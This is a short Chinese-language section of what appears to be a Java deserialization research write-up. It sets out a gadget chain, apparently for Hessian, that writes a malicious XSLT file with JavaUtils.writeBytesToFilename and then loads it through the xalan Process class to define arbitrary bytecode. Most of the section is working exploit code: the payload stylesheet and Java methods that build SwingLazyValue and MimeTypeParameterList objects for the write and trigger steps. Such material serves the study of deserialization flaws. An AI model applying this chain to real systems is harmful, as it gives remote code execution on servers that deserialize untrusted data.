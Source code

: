 # 0x05 XSLT Transform

通过`com.sun.org.apache.xml.internal.security.utils.JavaUtils#writeBytesToFilename`静态方法写文件，然后通过`com.sun.org.apache.xalan.internal.xslt.Process#_main`去加载XSLT文件触发transform，达到任意字节码加载的目的。不需要出网。

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
                xmlns:b64="http://xml.apache.org/xalan/java/sun.misc.BASE64Decoder"
                xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object"
                xmlns:th="http://xml.apache.org/xalan/java/java.lang.Thread"
                xmlns:ru="http://xml.apache.org/xalan/java/org.springframework.cglib.core.ReflectUtils"
                >
    <xsl:template match="/">
        <xsl:variable name="bs" select="b64:decodeBuffer(b64:new(),'<base64_payload>')"/>
        <xsl:variable name="cl" select="th:getContextClassLoader(th:currentThread())"/>
        <xsl:variable name="rce" select="ru:defineClass('<class_name>',$bs,$cl)"/>
        <xsl:value-of select="$rce"/>
    </xsl:template>
</xsl:stylesheet>
```

```java
public static Object loadXslt() throws Exception {
    UIDefaults uiDefaults = new UIDefaults();
    SwingLazyValue slz = new SwingLazyValue("com.sun.org.apache.xalan.internal.xslt.Process", "_main", new Object[]{new String[]{"-XT", "-XSL", "file:///E:/Server/evil_xslt"}});
    uiDefaults.put("p4d0rn", slz);
    MimeTypeParameterList mimeTypeParameterList = new MimeTypeParameterList();
    setFieldValue(mimeTypeParameterList, "parameters", uiDefaults);
    return mimeTypeParameterList;
}

public static Object writeXslt() throws Exception {
    String xsltTemplate = "";
    byte[] bytes = ClassPool.getDefault().get("a").toBytecode();
    String based = Base64.getEncoder().encodeToString(bytes);
    String xslt = xsltTemplate.replace("<base64_payload>", based).replace("<class_name>", "a");
    UIDefaults uiDefaults = new UIDefaults();
    SwingLazyValue slz = new SwingLazyValue("com.sun.org.apache.xml.internal.security.utils.JavaUtils", "writeBytesToFilename", new Object[]{"E:/Server/evil_xslt", xslt.getBytes()});

    uiDefaults.put("p4d0rn", slz);
    MimeTypeParameterList mimeTypeParameterList = new MimeTypeParameterList();
    setFieldValue(mimeTypeParameterList, "parameters", uiDefaults);
    return mimeTypeParameterList;
}
```

既然`org.springframework.cglib.core.ReflectUtils#defineClass`是静态方法，为什么不直接调用呢？

试了一下`ClassLoader`在Hessian序列化时会出问题。。。

